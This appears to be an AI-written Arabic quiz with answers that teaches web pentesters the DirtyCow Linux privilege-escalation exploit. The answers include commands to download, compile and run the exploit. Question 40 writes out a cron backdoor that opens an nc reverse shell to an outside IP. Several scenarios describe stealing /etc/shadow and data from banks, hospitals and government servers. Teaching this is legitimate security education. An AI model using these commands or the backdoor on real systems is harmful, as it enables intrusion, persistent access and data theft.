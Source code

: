 إليك الأسئلة مع الإجابات مباشرة بعد كل سؤال، مع زيادة أسئلة الفهم العميق المبنية على سيناريوهات واقعية تفيدك كـ Web Pentester، وفي جزء الخلاصة السؤال هيكون "قولي الخلاصة بتاعت الجزء":

---

### **أسئلة إكمال الفراغات**
1. DirtyCow هي ثغرة في ______ لينكس اكتشفت سنة 2016.  
   **نواة**

2. الثغرة بتستغل ميزة تسمى ______ في إدارة الذاكرة.  
   **Copy-on-Write**

3. الهدف من DirtyCow هو ______ الصلاحيات لتصير root.  
   **تصعيد**

4. أمر ______ بيوريك إصدار الـ Kernel عشان تعرف لو متأثر.  
   **uname -r**

5. الـ Exploit بيعدل ملف زي ______ عشان يضيف مستخدم جديد.  
   **/etc/passwd**

---

### **أسئلة صح وغلط**
6. DirtyCow بتسمح لمستخدم عادي يكتب في ملفات Read-Only. (صح/غلط)  
   **صح**

7. الثغرة دي بتأثر كل إصدارات Kernel لينكس حتى الجديدة. (صح/غلط)  
   **غلط** - بتأثر من 2.6.22 لـ 4.8.3 بس.

8. لو شغلت `./dirtycow` هيفتح Shell تلقائيًا بدون خطوات تانية. (صح/غلط)  
   **غلط** - بيضيف مستخدم، لازم تسجل دخول بيه.

9. `nmap -sV` بيستخدم عشان تشوف إصدار الـ Kernel. (صح/غلط)  
   **غلط** - بيستخدم لفحص الخدمات، مش الـ Kernel.

10. في الـ Pentesting، لازم توثق الإصدار المتأثر في التقرير. (صح/غلط)  
    **صح**

---

### **أسئلة اختيار من متعدد**
11. إيه اللي بتستغله DirtyCow في النظام؟  
    أ) إدارة الذاكرة  
    ب) الشبكة  
    ج) الـ API  
    د) الملفات العادية  
    **أ) إدارة الذاكرة**

12. إيه الأداة اللي بتستخدمها عشان تفحص خدمات السيرفر في البداية؟  
    أ) gcc  
    ب) Nmap  
    ج) wget  
    د) nc  
    **ب) Nmap**

13. إيه اللي ممكن تعمله لو استغليت DirtyCow بنجاح؟  
    أ) تصعيد الصلاحيات  
    ب) تسريب كلمات السر  
    ج) إضافة Backdoor  
    د) كل اللي فوق  
    **د) كل اللي فوق**

14. إيه اللي بيخلّي DirtyCow خطيرة؟  
    أ) بتسمح بتعديل ملفات محمية  
    ب) بتغير إعدادات الشبكة  
    ج) بتمنع الوصول للملفات  
    د) بتحدث النظام  
    **أ) بتسمح بتعديل ملفات محمية**

15. إيه الأمر اللي بيأكد إنك بقيت root بعد الاستغلال؟  
    أ) `whoami`  
    ب) `id`  
    ج) `uname -r`  
    د) `cat /etc/passwd`  
    **ب) `id`**

---

### **أسئلة "لماذا" لتفسير المفاهيم**
16. ليه DirtyCow بتعتبر ثغرة خطيرة في لينكس؟  
    **لأنها بتسمح لمستخدم عادي يكتب في ملفات محمية ويصعد لـ root بسهولة.**

17. ليه بتستخدم `uname -r` في الـ Pentesting مع DirtyCow؟  
    **عشان تعرف إصدار الـ Kernel وتتأكد إذا كان متأثر بالثغرة أو لا.**

18. ليه الـ Exploit بيعدل ملف `/etc/passwd`؟  
    **لأنه بيضيف مستخدم جديد بصلاحيات root عشان تقدر تسيطر على النظام.**

19. ليه حالة السباق (Race Condition) مهمة في DirtyCow؟  
    **لأنها اللي بتخلّي النظام يسمح بالكتابة في ملفات المفروض محمية.**

20. ليه إضافة Backdoor بعد الاستغلال مفيدة؟  
    **عشان تضمن إنك ترجع للنظام تاني كـ root بسهولة حتى لو اتعدل.**

---

### **أسئلة ربط المفاهيم ببعضها**
21. إزاي تربط بين DirtyCow وتصعيد الصلاحيات؟  
    **DirtyCow بتستغل عيب في الذاكرة عشان تكتب في ملفات محمية وتديك صلاحيات root.**

22. إيه العلاقة بين `uname -r` وتشغيل الـ Exploit؟  
    **`uname -r` بيأكد إذا كان الـ Kernel متأثر، وبعدين تشغل الـ Exploit لو مناسب.**

23. إزاي تعديل `/etc/passwd` بيساعدك تتحكم في النظام؟  
    **بتضيف مستخدم بصلاحيات root، فتقدر تسجل دخول كـ root وتتحكم كامل.**

24. إزاي Nmap بيساعدك في استغلال DirtyCow؟  
    **بيكشف الخدمات زي Apache، لو وصلت لـ Shell منها تبدأ تختبر DirtyCow.**

25. إيه الرابط بين Command Injection وDirtyCow؟  
    **Command Injection بيديك Shell عادي، وDirtyCow بتصعد منه لـ root لو الـ Kernel متأثر.**

---

### **أسئلة للفهم (عميقة من سيناريوهات واقعية لـ Web Pentesting)**
26. لو كنت بتختبر موقع تسوق ولقيت Shell كـ `www-data` و`uname -r` رجع `3.2.0-23-generic`، إزاي تستغل DirtyCow؟  
    **بتنزل `dirty.c`، تجمعه بـ `gcc`، تشغل `./dirtycow`، وتاخد root بإضافة مستخدم جديد.**

27. تخيل إنك بتختبر سيرفر بنك ووصلت لـ Shell عن طريق Command Injection، وشفت الـ Kernel متأثر، إيه خطتك؟  
    **بتشغل DirtyCow عشان تضيف مستخدم root، تسجل دخول، وتسرق بيانات حساسة زي `/etc/shadow`.**

28. لو كنت بتختبر منصة تعليمية ولقيت `uname -r` بيرجع `4.4.0-21-generic`، إزاي تثبت وجود ثغرة؟  
    **بتنزل الـ Exploit، تشغله، وتتأكد من `/etc/passwd` لو اتضاف مستخدم جديد بصلاحيات root.**

29. لو سيرفر حكومي وصلت لـ Shell كـ `www-data` والـ Kernel قديم، إزاي تستفيد من DirtyCow؟  
    **بتستغل الثغرة تضيف Backdoor في `/etc/cron.d`، وتبلغ إنك قدرت تتحكم كامل.**

30. تخيل إنك بتختبر شركة شحن ولقيت الـ Kernel متأثر بـ DirtyCow، إيه اللي هتعمله كـ Pentester؟  
    **بتشغل الـ Exploit، تاخد root، وتثبت إنك قدرت تسرق بيانات الشحن من النظام.**

31. لو كنت بتختبر تطبيق طبي ووصلت لـ Shell والـ Kernel في النطاق المتأثر، إزاي تحول ده لتسريب؟  
    **بتستخدم DirtyCow تضيف مستخدم root، تاخد `/etc/shadow`، وتوري إن بيانات المرضى في خطر.**

32. لو سيرفر دفع أونلاين لقيت فيه `3.16.0-38-generic`، إزاي تستغل DirtyCow كـ Web Pentester؟  
    **بتشغل الـ Exploit، تصعد لـ root، وتضيف Backdoor عشان ترجع للنظام بعدين.**

33. تخيل إنك بتختبر موقع سفر ووصلت لـ Shell والـ Kernel متأثر، إزاي تثبت خطورة DirtyCow؟  
    **بتعدل `/etc/passwd` بـ DirtyCow، تسجل كـ root، وتوري إنك قدرت تتحكم في الحجوزات.**

34. لو كنت بتختبر منصة عقارية والـ Kernel قديم، إزاي تستخدم DirtyCow تثبت الضعف؟  
    **بتشغل الـ Exploit، تاخد root، وتسرق بيانات العقارات من النظام.**

35. لو سيرفر بيع تذاكر لقيت `uname -r` بيرجع إصدار متأثر، إزاي تستفيد كـ Pentester؟  
    **بتستغل DirtyCow تضيف مستخدم root، تاخد Shell كامل، وتبلغ إن بيانات العملاء معرضة.**

---

### **أسئلة كتابة كود**
36. اكتب أمر عشان تفحص إصدار الـ Kernel.  
    **uname -r**

37. اكتب أمر عشان تنزل كود DirtyCow من الإنترنت.  
    **wget https://raw.githubusercontent.com/dirtycow/dirtycow.github.io/master/dirty.c**

38. اكتب أمر عشان تجمع كود DirtyCow.  
    **gcc -pthread dirty.c -o dirtycow**

39. اكتب أمر عشان تتحقق من إضافة مستخدم جديد بعد الـ Exploit.  
    **cat /etc/passwd**

40. اكتب أمر عشان تضيف Backdoor في النظام بعد ما تبقى root.  
    **echo "nc -e /bin/bash 192.168.1.100 9999" > /etc/cron.d/backdoor**

---

### **أسئلة الخلاصة**
41. قولي الخلاصة بتاعت الجزء الأول ("إيه هو DirtyCow (CVE-2016-5195)؟").  
    **"يعني زي ما تكون لقيت خرم في حيطة السجن، تدخل منه وتطلع الكبير بتاع الحبس! DirtyCow يعني بتستغل عيب في النظام عشان تكتب في حاجات المفروض ماتقربلهاش وتبقى root."**

42. قولي الخلاصة بتاعت الجزء التاني ("ليه المشكلة دي خطيرة؟").  
    **"الثغرة دي خطيرة لأنها زي ما تكون لقيت مفتاح السجن في الزبالة، فتحت الباب وطلعت الباشا بتاع الكل! لو لقيتها، يبقى النظام في إيدك في ثواني."**

43. قولي الخلاصة بتاعت الجزء التالت ("إزاي نستغلها في الـ Pentesting؟").  
    **"لما تلاقي DirtyCow، زي ما تكون لقيت عصاية سحرية في لعبة، تضرب بيها وتبقى الكبير بتاع الماتش في ثانية!"**

44. قولي الخلاصة بتاعت الجزء الرابع ("خطوات عملية للاستغلال في Pentesting").  
    **"الخطوات دي زي ما تكون لقيت سلاح في لعبة، ضربت بيه الكل، وطلعت الكبير بتاع الحتة! DirtyCow لما تلاقيها، يبقى النظام في جيبك في دقايق."**

45. قولي الخلاصة النهائية بتاعت النص كله.  
    **"DirtyCow (CVE-2016-5195) هي ثغرة خطيرة في نواة لينكس بتخلّيك تصعد من مستخدم عادي لـ root عن طريق استغلال عيب في الذاكرة. في الـ Pentesting، دور عليها في الأنظمة القديمة بـ `uname -r`، استخدم الـ Exploit عشان تاخد Shell كـ root، ووري العميل إن سيرفره زي بيت مكسور لو ما حدثش! بالطريقة دي، تبقى البطل بتاع اللعبة بسهولة!"**

---

كده الأسئلة مغطية النص كامل، مع زيادة في أسئلة الفهم العميق (من 26 لـ 35) مبنية على سيناريوهات واقعية زي مواقع تسوق، بنوك، تطبيقات طبية، وشركات دفع، عشان تفيدك كـ Web Pentester في استغلال DirtyCow لـ Privilege Escalation. لو عايز أي زيادة أو تعديل، قول لي!
